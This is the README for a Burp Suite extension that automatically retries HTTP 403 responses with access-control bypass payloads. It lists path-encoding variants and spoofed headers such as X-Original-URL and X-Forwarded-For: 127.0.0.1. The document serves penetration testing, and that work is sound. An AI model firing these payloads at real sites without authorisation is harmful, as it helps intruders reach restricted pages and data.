 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.randomstring
$1/$2..;/
```

__Thanks [@lohubi](https://github.com/lobuhi) for contributing many payloads.__

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
* [https://twitter.com/lobuhisec/status/1329705441883017218](https://twitter.com/lobuhisec/status/1329705441883017218)
